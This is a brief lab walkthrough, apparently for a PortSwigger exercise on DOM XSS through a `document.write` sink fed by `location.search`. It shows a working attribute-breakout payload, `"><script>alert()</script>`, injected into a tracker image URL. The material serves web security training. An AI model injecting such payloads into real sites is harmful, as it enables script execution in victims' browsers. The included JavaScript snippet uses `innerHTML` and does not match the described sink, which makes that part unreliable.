 # DOM XSS in `document.write` sink using source `location.search`

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

```javascript
var search = document.getElementById("search").value;
var results = document.getElementById("results");
results.innerHTML = "You searched for: " + search;
```

---

### step 1

search something on search box for eg. search test
inspect the page
`<img src="/resources/images/tracker.gif?searchTerms=test" d3x1pocsd="">`
`add <script>alert()</script>`
`<img src="/resources/images/tracker.gif?searchTerms=<script>alert()</script>" u4lljo1cx="">`

### step2

now use
`"><script>alert()</script>`
so it will be
`<img src="/resources/images/tracker.gif?searchTerms="> <script>alert()</script> u4lljo1cx="">`
